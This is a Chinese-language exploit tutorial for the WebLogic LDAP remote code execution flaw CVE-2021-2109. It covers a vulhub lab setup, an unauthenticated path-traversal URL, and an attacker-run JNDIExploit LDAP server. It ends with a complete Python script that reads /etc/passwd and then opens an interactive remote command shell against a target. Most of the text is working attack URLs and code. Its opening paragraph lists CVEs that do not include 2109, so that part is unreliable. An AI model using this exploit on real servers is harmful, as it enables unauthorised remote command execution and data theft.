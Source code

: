 # Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

# Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

```
WebLogic Server 10.3.6.0.0
WebLogic Server 12.1.3.0.0
WebLogic Server 12.2.1.3.0
WebLogic Server 12.2.1.4.0
WebLogic Server 14.1.1.0.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![img](/images/202202091226989.png)

## 漏洞复现

访问一下URL http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal

![img](/images/202202091226984.png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞

下载漏洞攻击需要的 LDAP启动脚本

[下载链接](https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11)

![img](/images/202202091226092.png)



下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![img](/images/202202091226065.png)

- 部分服务器注意放行端口

然后配合 Weblogic未授权范围 命令执行

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

- 注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;

![img](/images/202202091226090.png)

登录后台可使用此POC，未授权的话用上面的

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

## 漏洞POC 

- 注意参数格式 Ldap >>> ldap://xxx.xxx.xxx;xxx:1389 中的分号
- 如果使用其他的利用Ldap服务请自行更改 POC关键字

- 此POC仅仅检验有未授权的情况

```python
import requests
import sys
import re
requests.packages.urllib3.disable_warnings()
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Weblogic 多个版本                                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mLDAP        >>> ldap://xxx.xxx.xxx;xxx:1389                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "root:" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

def POC_2(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response))
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    ldap_url = str(input("\033[35mLdap >>> \033[0m"))
    POC_1(target_url, ldap_url, cmd="cat /etc/passwd")

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, ldap_url, cmd)
```

![img](/images/202202091226126.png)

